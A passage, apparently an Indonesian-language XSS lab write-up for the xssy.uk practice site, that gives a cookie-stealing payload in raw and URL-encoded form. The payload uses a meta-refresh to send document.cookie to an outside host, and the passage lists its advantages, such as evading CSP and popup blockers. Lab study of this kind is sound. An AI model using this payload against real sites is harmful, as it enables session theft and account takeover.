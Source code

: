 ### Full URL, Parameter & Payload

**Payload:**
```javascript
<script>
var meta = document.createElement('meta');
meta.httpEquiv = 'refresh';
meta.content = '0;url=https://eqh42jmm.xssy.uk/?c='+document.cookie;
document.head.appendChild(meta);
</script>
```

**URL Encoded:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3E%0Avar%20meta%20%3D%20document.createElement%28%27meta%27%29%3B%0Ameta.httpEquiv%20%3D%20%27refresh%27%3B%0Ameta.content%20%3D%20%270%3Burl%3Dhttps%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fc%3D%27%2Bdocument.cookie%3B%0Adocument.head.appendChild%28meta%29%3B%0A%3C%2Fscript%3E
```

### Cara Kerja
1. XSS payload di-inject melalui parameter `name`
2. Script menciptakan element `<meta>` baru secara dinamis
3. Attribute `http-equiv="refresh"` memberitahu browser untuk melakukan refresh/redirect
4. Attribute `content="0;url=..."` menentukan waktu delay (0 detik) dan URL tujuan
5. `document.cookie` ditambahkan ke URL sebagai parameter query string
6. Element meta ditambahkan ke `<head>` halaman
7. Browser secara otomatis melakukan redirect ke URL attacker
8. Server attacker menerima request dengan cookie victim di URL parameter

### Kelebihan
- ✅ **Bypass CSP tinggi** - Navigation jarang dibatasi CSP
- ✅ **Tidak kena popup blocker** - Bukan popup window, tapi redirect
- ✅ **Native browser behavior** - Menggunakan fitur standar browser
- ✅ **Kompatibilitas tinggi** - Bekerja di semua browser modern
- ✅ **Tidak perlu external resource** - Semua dilakukan inline
- ✅ **Simple implementation** - Code sederhana dan mudah dipahami

### Kekurangan
- ❌ **User awareness** - Victim sadar berpindah halaman (tidak stealth)
- ❌ **URL length limit** - Parameter query string terbatas ~2000 karakter
- ❌ **Loss of context** - Victim kehilangan halaman original
- ❌ **Bisa diblokir oleh**: `navigate-to 'self'` (jika ada, experimental)

---

## 🎯 Teknik 2: window.location Redirect

### URL & Parameter Lab
```
https://pzcihwu2.xssy.uk/target.ftl?name=
```
